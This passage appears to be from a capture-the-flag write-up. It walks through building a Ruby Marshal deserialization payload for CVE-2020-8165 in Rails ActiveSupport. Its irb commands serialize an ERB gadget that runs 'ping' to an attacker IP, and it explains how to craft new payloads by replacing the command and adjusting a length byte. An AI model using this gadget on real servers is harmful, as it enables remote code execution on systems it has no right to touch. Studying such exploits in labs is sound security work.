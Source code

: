 
The next line in the POC will cause an error, because `payload` isn’t a
command. It works if I add an `=` between `payload` and `Marshal`:

    
    
    irb(main):006:0> payload = Marshal.dump(ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new erb, :result)
    => "\x04\bo:@ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy\t:\x0E@instanceo:\bERB\b:\t@srcI\"\x1C`ping -c 1 10.10.14.19`\x06:\x06ET:\x0E@filenameI\"\x061\x06;\tT:\f@linenoi\x06:\f@method:\vresult:\t@varI\"\f@result\x06;\tT:\x10@deprecatorIu:\x1FActiveSupport::Deprecation\x00\x06;\tT"
    

Now I’ll use the `uri` module to encode and print the payload:

    
    
    irb(main):010:0> require 'uri'
    => false
    irb(main):011:0> puts URI.encode_www_form(payload: payload)
    payload=%04%08o%3A%40ActiveSupport%3A%3ADeprecation%3A%3ADeprecatedInstanceVariableProxy%09%3A%0E%40instanceo%3A%08ERB%08%3A%09%40srcI%22%1C%60ping+-c+1+10.10.14.19%60%06%3A%06ET%3A%0E%40filenameI%22%061%06%3B%09T%3A%0C%40linenoi%06%3A%0C%40method%3A%0Bresult%3A%09%40varI%22%0C%40result%06%3B%09T%3A%10%40deprecatorIu%3A%1FActiveSupport%3A%3ADeprecation%00%06%3B%09T
    => nil
    

#### Modifying POC

I can get to the same result with a little bit of understanding of how
serialized objects tend to work. The output from [the POC on
GitHub](https://github.com/masahiro331/CVE-2020-8165) with a payload of `touch
/tmp/rce` was this:

    
    
    %04%08o%3A%40ActiveSupport%3A%3ADeprecation%3A%3ADeprecatedInstanceVariableProxy%09%3A%0E%40instanceo%3A%08ERB%08%3A%09%40srcI%22%15%60touch+%2Ftmp%2Frce%60%06%3A%06ET%3A%0E%40filenameI%22%061%06%3B%09T%3A%0C%40linenoi%06%3A%0C%40method%3A%0Bresult%3A%09%40varI%22%0C%40result%06%3B%09T%3A%10%40deprecatorIu%3A%1FActiveSupport%3A%3ADeprecation%00%06%3B%09T
    

I’m particularly interesting in the part around the command:

    
    
    srcI%22%15%60touch+%2Ftmp%2Frce%60
    

A serialized payload often includes the length of the object and the contents.
So I’d expect something that’s related to length (in this case 14 bytes),
which could be that 0x22 or 0x15. In the payload I generated with `ping`, the
payload was 21 characters long, and the 0x15 byte is not an 0x1c, where the
0x22 is unchanged. It looks like that 0x15 or 0x1c is the length of the given
string plus 7.

Now I can generate new payloads by replacing the command string and the length
byte (after adding 7).

### Deploy
